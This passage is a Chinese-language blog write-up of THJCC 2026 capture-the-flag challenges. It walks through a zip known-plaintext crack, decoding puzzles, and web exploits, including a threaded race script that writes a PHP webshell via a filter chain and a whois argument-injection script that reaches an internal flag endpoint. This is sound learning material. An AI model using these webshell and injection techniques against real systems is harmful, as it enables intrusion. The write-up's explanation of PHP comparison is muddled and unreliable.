### [CoLoR iS cOdE](https://ctf2026.thjcc.org/challenges#CoLoR%20iS%20cOdE-21) (479)

#### 題目：
Yeah so I forgot the zip password.

Good luck getting in :D

btw, colors can say a lot.
> Author: xzhiyouu

:::Tip[Download Flie]
[THJCC_CoLoR_iS_cOdE.zip](https://file.pg72.tw/share/0L6m8jwo)
:::

#### 解題心得：
這題有點困難，我看著大佬的影片跟著學的，有興趣可以看看到底要怎麼操作：
> [!NOTE]
> 大佬影片鏈結： [Youtube](https://youtu.be/0e9sybuGLU4)  

首先先把檔案下載下來，然後會發現這個檔案是zip檔，裡面有一個叫`rainbow.png`的圖片，但檔案加密了，沒辦法直接解壓縮，目前也不知道密碼，就只好使用這個工具來密碼明文攻擊啦！  
:spoiler[依據這題的創作者所述，這題密碼是這樣： **this_is_a_strong_passwd_for_CoLoR-iS- cOdE_challenge** ，如果暴力破解的話會花好數兆兆年...?（Gemini說的）]
::github{repo="kimci86/bkcrack/"}
這個工具安裝後，我們先加入一個`header.bin`：
> [!NOTE]
> header.bin 主要是這個工具破譯資料夾需要至少**12個位元組明文**，也就是原始檔案`png`的一些已知內容。那我們都知道png有固定的header：`89 50 4E 47 0D 0A 1A 0A`(Signature)`00 00 00 0D`(IHDR Length)`49 48 44 52`(IHDR Type)，所以我們直接把這個當標頭當作明文寫入`header.bin`中，這樣就可以破譯了！
```bash
pg72@PGpenguin72:~/Downloads/$ cd ./bkcrack-1.8.1-Linux-aarch64/
pg72@PGpenguin72:~/Downloads/bkcrack-1.8.1-Linux-aarch64/$ printf '\x89PNG\r\n\x1a\n\x00\x00\x00\x0D\x49\x48\x44\x52' > header.bin
pg72@PGpenguin72:~/Downloads/bkcrack-1.8.1-Linux-aarch64/$ ./bkcracker \
>	-C THJCC_CoLoR_iS_cOdE.zip \
>	-c rainbow.png \
>	-p header.bin
bkcrack 1.8.1 - 2025-10-25
[23:59:38] Z reduction using 9 bytes of known plaintext
100.0 % (9 / 9)
[23:59:38] Attack on 659629 Z values at index 6
Keys: d3b0bb05 2e88b90e ed7f7e33
74.2 % (489645 / 659629)
Found a solution. Stopping.
You may resume the attack with the option: --continue-attack 489645
[00:33:59] Keys
d3b0bb05 2e88b90e ed7f7e33
pg72@PGpenguin72:~/Downloads/bkcrack-1.8.1-Linux-aarch64/$ ./bkcracker \
>	-C THJCC_CoLoR_iS_cOdE.zip \
>	-c rainbow.png \
>	-k d3b0bb05 2e88b90e ed7f7e33 \
>	-D new.bin
bkcrack 1.8.1 - 2025-10-25
[00:39:55] Writing decrypted archive new.zip
100.0 % (1 / 1)
```

經過上面的破譯後，我們可以得到一個新的沒有加密的zip：`new.zip`，然後就可以直接解壓縮查看裡面的`rainbow.png`啦！

這個圖片再加上題目提示就看起來很像是一個代碼叫`npiet`，簡單來說就是用顏色寫程式碼。那就直接Online Decode就行！[我是線上解碼工具](https://www.bertnase.de/npiet/npiet-execute.php)
```txt
!0rful_img_m4d3_by_p1e7:>}
```
恩？ 只有這樣嗎？ 感覺怪怪的，開HxD檢查一下：

等等下面那串是啥？ OoK? 這不是Brainfuck的變種`Ook!`嗎？（就是一個很難讀的程式語言啦），然後就用`exfitool`把這些文字提取出來（是看影片才知道有這工具的，要不然我都不知道==）：
```bash collapse={2-23}
pg72@PGpenguin72:~/Downloads/bkcrack-1.8.1-Linux-aarch64/new$ exiftool rainbow.png 
ExifTool Version Number         : 13.10
File Name                       : rainbow.png
Directory                       : .
File Size                       : 10 kB
File Modification Date/Time     : 2025:11:07 23:21:05+08:00
File Access Date/Time           : 2026:02:24 23:59:45+08:00
File Inode Change Date/Time     : 2026:02:24 23:59:42+08:00
File Permissions                : -rw-r--r--
File Type                       : PNG
File Type Extension             : png
MIME Type                       : image/png
Image Width                     : 377
Image Height                    : 52
Bit Depth                       : 8
Color Type                      : RGB
Compression                     : Deflate/Inflate
Filter                          : Adaptive
Interlace                       : Noninterlaced
Exif Byte Order                 : Little-endian (Intel, II)
User Comment                    : Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook! Ook? Ook! Ook! Ook. Ook? Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook? Ook. Ook? Ook! Ook. Ook? Ook. Ook. Ook. Ook. Ook. Ook. Ook! Ook. Ook? Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook! Ook? Ook! Ook! Ook. Ook? Ook! Ook! Ook! Ook! Ook! Ook! Ook? Ook. Ook? Ook! Ook. Ook? Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook. Ook. Ook. Ook. Ook. Ook! Ook. Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook. Ook! Ook. Ook? Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook! Ook? Ook! Ook! Ook. Ook? Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook? Ook. Ook? Ook! Ook. Ook? Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook! Ook. Ook? Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook! Ook? Ook! Ook! Ook. Ook? Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook? Ook. Ook? Ook! Ook. Ook? Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook. Ook? Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook! Ook? Ook! Ook! Ook. Ook? Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook? Ook. Ook? Ook! Ook. Ook? Ook! Ook! Ook! Ook! Ook! Ook. Ook? Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook! Ook? Ook! Ook! Ook. Ook? Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook? Ook. Ook? Ook! Ook. Ook? Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook! Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook! Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook! Ook. Ook? Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook! Ook? Ook! Ook! Ook. Ook? Ook! Ook! Ook! Ook! Ook! Ook! Ook? Ook. Ook? Ook! Ook. Ook? Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook. Ook? Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook! Ook? Ook! Ook! Ook. Ook? Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook? Ook. Ook? Ook! Ook. Ook? Ook! Ook! Ook! Ook. Ook? Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook! Ook? Ook! Ook! Ook. Ook? Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook? Ook. Ook? Ook! Ook. Ook? Ook! Ook. Ook? Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook! Ook? Ook! Ook! Ook. Ook? Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook? Ook. Ook? Ook! Ook. Ook? Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook! Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook! Ook. Ook? Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook! Ook? Ook! Ook! Ook. Ook? Ook. Ook. Ook. Ook. Ook. Ook. Ook? Ook. Ook? Ook! Ook. Ook? Ook. Ook. Ook. Ook. Ook. Ook. Ook! Ook. Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook. Ook? Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook! Ook? Ook! Ook! Ook. Ook? Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook? Ook. Ook? Ook! Ook. Ook? Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook. Ook? Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook! Ook? Ook! Ook! Ook. Ook? Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook? Ook. Ook? Ook! Ook. Ook? Ook. Ook. Ook. Ook. Ook! Ook. Ook? Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook! Ook? Ook! Ook! Ook. Ook? Ook! Ook! Ook! Ook! Ook! Ook! Ook? Ook. Ook? Ook! Ook. Ook? Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook. Ook? Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook! Ook? Ook! Ook! Ook. Ook? Ook. Ook. Ook. Ook. Ook. Ook. Ook? Ook. Ook? Ook! Ook. Ook? Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook! Ook. Ook? Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook! Ook? Ook! Ook! Ook. Ook? Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook? Ook. Ook? Ook! Ook. Ook? Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook. Ook? Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook! Ook? Ook! Ook! Ook. Ook? Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook? Ook. Ook? Ook! Ook. Ook? Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook! Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook! Ook. Ook? Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook! Ook? Ook! Ook! Ook. Ook? Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook? Ook. Ook? Ook! Ook. Ook? Ook! Ook! Ook! Ook! Ook! Ook. Ook? Ook.
Image Size                      : 377x52
Megapixels                      : 0.020
```
然後把它丟到線上網站把它翻譯一下： [這是我用的Decoder網站](https://www.dcode.fr/ook-language)
```txt
THJCC{c0lorfU1_col0rfu!_c0
```
最後再把這兩個字串連接起來應該就是答案了！
#### Flag:
```THJCC{c0lorfU1_col0rfu!_c0!0rful_img_m4d3_by_p1e7:>}```

## Web

### [Las Vegas](https://ctf2026.thjcc.org/challenges#Las%20Vegas-17) (100)

#### 題目：
Lucky 7 7 7
http://chal.thjcc.org:14514
> Ahthor: Frank

#### 解題心得：
這題其實很簡單，點進網站後顯示了一個拉霸機，然後我們嘗試玩玩看：

恩，看起來他一定要我們投擲到777才會有Flag，但我們沒有這麼多的時間慢慢賭機率，所以我們打開F12(開發者工具)來看看，然後點進Network發現每次拉霸都會請求一個`?n=XXX`這種東西，而那個數字是拉霸機的數字，那我們就可以合理推斷，他應該是透過這樣來取得狀態的。  
於是我們直接向後端發送777的請求：
```bash
pg72@PGpenguin72:~/Downloads$ curl -X POST http://chal.thjcc.org:14514/\?n\=777
What a Lucky man! THJCC{LUcKy_sEVen_ee9cfe0c7fca2c2d}
```
然後我們就得到了Flag！
#### Flag:
```THJCC{LUcKy_sEVen_ee9cfe0c7fca2c2d}```

### [Ear👂](https://ctf2026.thjcc.org/challenges#Ear%F0%9F%91%82-18) (100)

#### 題目：
[CWE-698](https://cwe.mitre.org/data/definitions/698.html)

http://chal.thjcc.org:1234
> Author: Frank

#### 解題心得：
這題是考你是否知道`CWE-698-EAR`漏洞是什麼，簡單來說就是沒有停止符導致後續代碼的洩漏（應該是可以這樣解釋吧...?），這在Web中會導致嚴重的資安漏洞，那我們就來運用看看吧！  
首先查看一下網頁內容：

直接猜猜看`admin.php`有沒有東西吧，直接使用curl發送請求（Author 是這麼寫的，就是單純猜會有一個管理頁面這樣）：
```bash
pg72@PGpenguin72:~/Downloads$ curl http://chal.thjcc.org:1234/admin.php
<!doctype html>
<html>
<head><meta charset="utf-8"><title>Admin Panel</title></head>
<body>
<p>Admin Panel</p>
<p><a href="status.php">Status page</a></p>
<p><a href="image.php">Image</a></p>
<p><a href="system.php">Setting</a></p>
</body>
```
這裡面還有其他的檔案欸，那我們一個一個查閱後會發現只有`system.php`裡有我們要的Flag：
```bash
pgpenguin72@PGpenguin72:~/Downloads$ curl http://chal.thjcc.org:1234/system.php
<!doctype html>
<html>
<head><meta charset="utf-8"><title>Admin Panel</title></head>
<body>
<p>System settings</p>
<p>THJCC{2cd89747634417ba_U_kNoW-HOw-t0_uSe-EaR}</p>
</body>
</html>
```
#### Flag:
```THJCC{2cd89747634417ba_U_kNoW-HOw-t0_uSe-EaR}```

### [My First React](https://ctf2026.thjcc.org/challenges#My%20First%20React-34) (100)

#### 題目：
https://chal.thjcc.org:25600/
> Author: xiulan

#### 解題心得：
這題很麻煩喔，我們就直接點入網頁：

這個網頁要我們登入，而且還很好心的幫我們填上了`guest`了，然後我們點Login看看：

恩... 沒啥東西，那我們直接丟 [Burp Suite](https://portswigger.net/burp) 來分析一下網頁：
> [!NOTE]
> 這是一個可以攔截代理服務器的一個工具，還有修改檢查HTTP/HTTPS流量等功能，廣泛用於掃描漏洞和測試滲透。


我發現點擊登入的時候會有一個請求`/api/login`的部分，然後他回傳的東西很有意思：
```json
{"result":{"role":"guest","username":"guest"},"success":true}
```
這個role看起來很SUS，於是我使用Proxy頁面的`Intercept`來攔截Response並修改成"admin"：

修改後把所有請求回應Forward出去，Flag就跑出來了：


#### Flag:
```THJCC{CSR_c4n_b3_d4ng3rrr0us!}```

### [A long time ago...](https://ctf2026.thjcc.org/challenges#A%20long%20time%20ago...-36) (100)

#### 題目：
http://chal.thjcc.org:25601/
> Author: xiulan

:::Tip[Download Flie]
[THJCC_long_time_ago.zip](https://file.pg72.tw/share/ffwdPLZC)
:::

#### 解題心得：
這題我們先點進去看一下網頁：

好的，一開始就告訴我們admin登入已經被取消了，那我們還是一樣試試看：

好看起來是沒辦法的，那接下來去登入為其他user試試看：

恩？我的Flag被管理員的貓吃了？？？那就按照國際慣例檢查一次cookies和請求，雖然cookie中有個感覺可以做手腳的`PHPSESSID`，不過在不熟的情況下決定去看看題目附錄檔案好了，於是我下載後就解壓縮看看，裡面果然是網頁原始碼。那就先看看`loginController.php`吧：
```php collapse={1-6, 10-17}
<?php
session_start();

if ($_SERVER['REQUEST_METHOD'] == 'POST') {
    $_SESSION['perms'] = [];

    if ($_POST['username'] === 'admin') {
        die("Admin login is permanently disabled.");
    }

    $perm_key = $_POST['username'];
    $_SESSION['perms'][$perm_key] = 'guest_access';

    $_SESSION['username'] = $_POST['username'];
    header('location: /index.php');
    die();
}
```
這裡發現網站在比對是否為管理員時只有比對是否為`admin`，然後我們可以發現一件事情，這個比對的等號是三個，也就是嚴格比較，這個東西有個規則是當陣列的 Key 是一個合法的十進位數字字串（舉例為`0`），PHP 會自動把它強制轉型成 int。

所以系統在執行`if ($_POST['username'] === 'admin)'`，會變成是 `if (0 == 'admin')`，而php嘗試比較時會把'admin'字串轉型成int，不過由於字串並沒有任何數字，於是判斷式就會變成`if (0 == 0)`，而執行管理員代碼。

那接下來我就不多說了，直接輸入一個數字0來看看，點擊登入：

#### Flag:
```THJCC{Meow_M3ow_Me0w}```

### [Secret File Viewer](https://ctf2026.thjcc.org/challenges#Secret%20File%20Viewer-40) (100)

#### 題目：
Maybe there are some hidden files beneath the surface...	
http://chal.thjcc.org:30000/
> Author: Grissia

#### 解題心得：
這題其實算簡單了，只不過不知道為什麼當初我為什麼沒寫，好像是以為他很麻煩的樣子...?反正就先解題，國際慣例點開網站：

這裡有三個`.txt`檔案，名字分別為file_A、file_B、file_C，我就直接簡單地把txt的文字內容打出來了喔：
```txt
From: Agent K
To: Agent Q
Subject: Web Interface Review

Q,

I’ve taken a look at the new web interface you deployed last night.
The functionality seems fine, but I’m concerned about how files are being handled.

Exposing file paths through user-controllable parameters is always risky.
You know how creative outsiders can be when they start poking around.

Please make sure the client-side logic is solid and add some extra
security measures before this goes any further.

We cannot afford careless mistakes this time.

— K
```
```txt
From: Agent Q
To: Agent K
Subject: Re: Web Interface Review

K,

No need to worry.

I’ve already implemented additional client-side protections.
There is a dedicated script, "script.js" validates file paths, blocks traversal
patterns, and ensures only approved resources can be accessed.

The logic is a bit complex, but that’s intentional.
Anyone trying to tamper with the system will be stopped before reaching
anything sensitive.

I can personally guarantee that the interface is secure now.

You have my word.

— Q
```
```txt
From: Agent K
To: Agent Q
Subject: Re: Re: Web Interface Review

Good to hear.

As long as the safeguards are in place, we should be fine.
Just remember — under no circumstances should sensitive files be exposed.

This includes internal configurations, shared libraries,
and especially the flag file.

If anything like /flag.txt or other critical assets were ever leaked,
the consequences would be severe.

Let’s hope your precautions are as effective as you claim.

— K
```
反正上述內容大意我只抓到這兩個：
1. 有一個腳本 `script.js` 阻止遍歷所有檔案。
2. flag 存在 `/flag.txt`。

好那就先看網頁本身的Script.js吧！我們直接調用F12，然後點選`Sources`後找到`script.js`：
```js collapse={3-112}
(function () {
    "use strict";

    // ====== string table ======
    const _0x5a3d = [
        "log",
        "warn",
        "error",
        "Security check passed",
        "Invalid file path detected",
        "Loading file",
        "obfuscation.php",
        "file",
        "..",
        "/",
        "%2e%2e",
        "base64",
        "atob",
        "btoa"
    ];

    function _0x1c9a(i) {
        return _0x5a3d[i];
    }

    // ====== security module ======
    const SecurityModule = (function () {
        let state = {
            validated: false,
            token: null,
            timestamp: Date.now()
        };

        function generateToken() {
            const raw = Math.random().toString(36).substring(2);
            return window[_0x1c9a(12)](raw);
        }

        function validatePath(path) {
            if (!path) return false;

            // LFI detection
            if (
                path.includes(_0x1c9a(8)) ||
                path.includes(_0x1c9a(10)) ||
                path.split(_0x1c9a(9)).length > 10
            ) {
                console[_0x1c9a(1)](_0x1c9a(4));
                return false;
            }

            return true;
        }

        function init() {
            state.token = generateToken();
            state.validated = true;
            console[_0x1c9a(0)](_0x1c9a(3));
        }

        return {
            init,
            validatePath,
            state
        };
    })();

    // ====== loader ======
    function loadFileSecurely(file) {
        console[_0x1c9a(0)](_0x1c9a(5), file);

        if (!SecurityModule.validatePath(file)) {
            console[_0x1c9a(2)]("Blocked by client-side filter");
            return;
        }

        // request construction
        const fakeUrl =
            _0x1c9a(6) +
            "?" +
            _0x1c9a(7) +
            "=" +
            encodeURIComponent(file);

        void fakeUrl;
    }

    function entropyNoise() {
        let x = 0;
        for (let i = 0; i < 1000; i++) {
            x ^= Math.random() * i;
        }
        return x;
    }

    entropyNoise();

    // ====== Init ======
    document.addEventListener("DOMContentLoaded", function () {
        SecurityModule.init();

        // Pretend to protect buttons
        const buttons = document.querySelectorAll("a.btn");
        buttons.forEach(btn => {
            btn.addEventListener("mouseover", function () {
                const href = btn.getAttribute("href") || "";
                loadFileSecurely(href);
            });
        });
    });

})();
```
我看了看，好像沒有意義，於是我就在想要怎麼下載Flag...然後我就想到剛剛不是有下載那三個txt檔案嗎？然後就嘗試看看以下網頁鏈結路徑：
```txt
http://chal.thjcc.org:30000/download.php?file=files/flag.txt
http://chal.thjcc.org:30000/download.php?file=flag.txt
```
嘗試到第二個的時候就直接成功了，好像有點太簡單了...?只可惜當時沒看到這題要不然還可以再多拿幾分:（
#### Flag:
```THJCC{h0w_dID_y0u_br34k_q'5_pr073c710n???}```

### [No Way Out](https://ctf2026.thjcc.org/challenges#No%20Way%20Out-42) (100)

#### 題目：
The janitor is fast, and the filter is lethal. You have 0.67 seconds to bypass the exit() trap before your existence is erased.  
http://chal.thjcc.org:8080/
> Author: Auron

:::Tip[Download Flie]
[chal.zip](https://file.pg72.tw/share/n8qGIuYZ)
:::

#### 解題心得：
這題先看網頁，網頁上有一些代碼：

這些代碼看不懂，但好像是跳過hacker和退出的指令...?反正先下載zip解壓縮看看。  
裡面有`start.sh`、`Dockerfile`、`docker-compose.yml`、`src\index.php`，但我對php不熟，於是我就詢問了Gemini看看他有什麼建議，他跟我說這題中的`start.sh`是一個當你創建新檔案時，會在0.67秒內刪除的程序：
```sh
#!/bin/bash

(
    inotifywait -m -r -e create --format '%w%f' /var/www/html | while read NEWFILE
    do
        if [ "$(basename "$NEWFILE")" != "index.php" ]; then
            sleep 0.67 
            rm -f "$NEWFILE"
        fi
    done
) &

exec docker-php-entrypoint apache2-foreground
```
而`index.php`主要攔截了使用`base64`、`rot13`、和`string_tag`，讓我們沒辦法直接使用php指令，而且還會直接在每個指令上面加上`<?php exit(); ?>`來終止指令：
```php
<?php
    error_reporting(0);
    $content = $_POST['content'];
    $file = $_GET['file'];

    if (isset($file) && isset($content)) {
        
        $exit = '<?php exit(); ?>';
        $blacklist = ['base64', 'rot13', 'string.strip_tags'];

        foreach($blacklist as $b){
            if(stripos($file, $b) !== false){
                die('Hacker!!!');
            }
        }

        file_put_contents($file, $exit . $content);
    
    usleep(50000);

        echo 'file written: ' . $file;
    }

    highlight_file(__FILE__);
?>
```
於是我們激烈的討論過後，得出我們可以使用`UCS-2`（一個可以反轉兩個字元順序的編碼）然後先繞過exit()，然後再將我們實際要做的事情（寫入flag檔案），在檔案刪除前的0.6秒多前讀取並輸出。於是我和Gemini一起寫了一個腳本來解決這個問題：
```py
import requests
import threading
import os
import time

target = "http://chal.thjcc.org:8080/index.php"
shell_url = "http://chal.thjcc.org:8080/shell.php"

# 1. 自動對齊 Payload 生成器
# 我們要執行的原始指令
cmd = "<?php system('cat /flag.txt');?>" 

# 確保 Payload 是偶數長度，如果不是就補一個空格
if len(cmd) % 2 != 0:
    cmd += " "

# 將 Payload 每兩個字元翻轉一次
# 例如: "ab" -> "ba"
flipped_payload = "".join([cmd[i+1] + cmd[i] for i in range(0, len(cmd), 2)])

print(f"[*] Raw Payload: {cmd}")
print(f"[*] Translated: {flipped_payload}")

def write():
    # 使用 Session 保持連線，速度會快很多
    s = requests.Session()
    params = {
        "file": "php://filter/write=convert.iconv.UCS-2LE.UCS-2BE/resource=shell.php"
    }
    data = {"content": flipped_payload}
    while True:
        try:
            s.post(target, params=params, data=data, timeout=1)
        except:
            pass

def read():
    s = requests.Session()
    while True:
        try:
            r = s.get(shell_url, timeout=1)
            if "THJCC{" in r.text:
                print(r.text.strip())
    
        except:
            pass

def start_race():
	# 開 15 個執行緒寫入，15 個執行緒讀取
    for _ in range(15):
        threading.Thread(target=write, daemon=True).start()
    for _ in range(15):
        threading.Thread(target=read, daemon=True).start()

    while True:
        time.sleep(1)

if __name__ == "__main__":
    start_race()
```
然後在Gemini的幫助下，我學習到了php的一些知識並且拿到了Flag！
```bash
pg72@PGpenguin72:~/Downloads$ python3 write_read.py
[*] Raw Payload: <?php system('cat /flag.txt');?>
[*] Translated: ?<hp pystsme'(ac tf/al.gxt't;)>?
?<hp pxeti)( ;>?THJCC{h4ppy_n3w_y34r_4nd_c0ngr47_u_byp4SS_th7_EXIT_n1ah4wg1n9198w4tqr8926g1n94e92gw65j1n89h21w921g9}
```
#### Flag:
```THJCC{h4ppy_n3w_y34r_4nd_c0ngr47_u_byp4SS_th7_EXIT_n1ah4wg1n9198w4tqr8926g1n94e92gw65j1n89h21w921g9}```

### [who is whois]() (100)

#### 題目：
who is whois???  
http://chal.thjcc.org:13316/
> Author: 夜有夢

:::Tip[Download Flie]
[chal(1).zip](https://file.pg72.tw/share/lXbKm_0l)
:::

#### 解題心得：
這題看起來和whois這個查詢網域資訊內容相關的感覺，反正就先看網頁：

恩...看起來就很單純，我試試看查詢我的網域：

也很正常，那直接研究壓縮包裡面的東西好了，我發現裡面主要代碼是`app.py`：
```py
from flask import Flask, request, render_template_string
import subprocess, shlex
import pyotp
import base64

app = Flask(__name__)

INDEX_HTML = """
<!doctype html>
<html lang="zh-Hant">
<head>
  <meta charset="utf-8">
  <title>Whois 查詢</title>
  <meta name="viewport" content="width=device-width, initial-scale=1">
  <style>
    body { font-family: monospace; margin: 2rem; }
    form { margin-bottom: 1rem; }
    input[type=text]{ width: 36rem; max-width: 100%; padding: .5rem; }
    button{ padding: .5rem 1rem; }
    pre { white-space: pre-wrap; word-wrap: break-word; background:#f4f4f4; padding:1rem; border-radius:.5rem; }
    .argv{ color:#555; font-size:.9rem; }
  </style>
</head>
<body>
  <h1>Whois 查詢</h1>
  <form method="POST" action="/whois">
    <label>Domain name
      <input name="domain" type="text" placeholder="example.com" required>
    </label>
    <button type="submit">查詢</button>
  </form>
  
    <h2>結果</h2>
    <pre>{{ result }}</pre>
  
    <h2>錯誤</h2>
    <pre>{{ error }}</pre>
  
</body>
</html>
"""
FLAG_VALUE = "THJCC{fake_flag_for_test}"
LOCAL_IPS = {"127.0.0.1", "::1"}

_ENC_SECRET = "Jl5cLlcsI10sKCYhLS40IykpMyQnIF8wIjEtPTM6OzI="
_XOR_KEY = "thjcc"

def _xor_decode(data: str, key: str) -> str:
    raw = base64.b64decode(data)
    return "".join(chr(b ^ ord(key[i % len(key)])) for i, b in enumerate(raw))

def _get_totp_secret():
    return _xor_decode(_ENC_SECRET, _XOR_KEY)

def _deny(msg: str, code: int = 403):
    return (msg + "\n", code, {"Content-Type": "text/plain; charset=utf-8"})

@app.route("/", methods=["GET"])
def index():
    return render_template_string(INDEX_HTML, result=None, error=None, argv=None)

@app.route("/whois", methods=["POST"])
def whois_lookup():
    raw = request.form.get("domain", "").strip()
    if not raw:
        return render_template_string(INDEX_HTML, result=None, error="缺少參數", argv=None), 400

    try:
        args = ["whois"] + shlex.split(raw)
        proc = subprocess.run(args, capture_output=True, text=True, timeout=15)
    except subprocess.TimeoutExpired:
        return render_template_string(INDEX_HTML, result=None, error="查詢逾時", argv=" ".join(args)), 504
    except Exception as e:
        return render_template_string(INDEX_HTML, result=None, error=str(e), argv=" ".join(args) if 'args' in locals() else None), 500

    if proc.returncode != 0:
        return render_template_string(INDEX_HTML, result=None, error=proc.stderr or "whois 執行失敗", argv=" ".join(args)), 500

    return render_template_string(INDEX_HTML, result=proc.stdout, error=None, argv=" ".join(args))

@app.route("/flag", methods=["POST"])
def flag():
    if request.remote_addr not in LOCAL_IPS:
        return _deny("error: local only", 403)

    if request.headers.get("admin", "") != "thjcc":
        return _deny("error: missing/invalid admin header", 403)

    safekey = request.form.get("safekey", "").strip()
    if not safekey:
        return _deny("error: missing safekey", 400)

    totp = pyotp.TOTP(_get_totp_secret())
    if not totp.verify(safekey):
        return _deny("error: invalid totp", 403)

    return (FLAG_VALUE + "\n", 200, {"Content-Type": "text/plain; charset=utf-8"})

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=13316)
```
這裡代碼有幾個重點：
1. 網站有一個`/whois`可以用來post並獲取`whois`的查詢資料。 
2. 網站有一個`/flag`可以用來post，但是只能用於local。
3. 想調用flag需要過`TOTP`驗證。

於是我依照這兩個思路開始想，我想到這應該和代碼注入有關，簡單來說就是網頁有一個調用whois的部分，那我可以透過這個發送一個調用並且同時調取`/flag`路由，這樣對伺服器來說就是透過主機內部調取了。  
不過我並不會寫這個的相關指令，於是又詢問了Gemini，最後他幫我寫了一個powershell 腳本，然後我也把TOTP的解密也解決了：
```ps1
# 1. 填入你剛剛新鮮產生的 TOTP 驗證碼 (請確保在 30 秒內執行)
$totp = "填入新的6位數字" 

# 2. 構造 Payload（注意結尾的雙引號已經修正，並使用 PowerShell 的跳脫字元 `"`）
$domain = "-h 127.0.0.1 -p 13316 `"POST /flag HTTP/1.1%0d%0aHost: 127.0.0.1%0d%0aadmin: thjcc%0d%0aContent-Type: application/x-www-form-urlencoded%0d%0aContent-Length: 14%0d%0a%0d%0asafekey=$totp`""

# 3. 發送請求 (加入 -UseBasicParsing 避免惱人的警告)
$response = Invoke-WebRequest `
    -Uri "http://chal.thjcc.org:13316/whois" `
    -Method POST `
    -Body "domain=$domain" `
    -ContentType "application/x-www-form-urlencoded" `
    -UseBasicParsing

# 4. 提取並顯示 <pre> 標籤中的伺服器內部回應
if ($response.Content -match '(?s)<pre>(.*?)</pre>') {
    Write-Host "伺服器回應結果:" -ForegroundColor Cyan
    Write-Host $matches[1] -ForegroundColor Green
} else {
    Write-Host "未找到結果，完整原始碼如下："
    Write-Host $response.Content
}
```

```py
import base64, pyotp

_ENC_SECRET = "Jl5cLlcsI10sKCYhLS40IykpMyQnIF8wIjEtPTM6OzI="
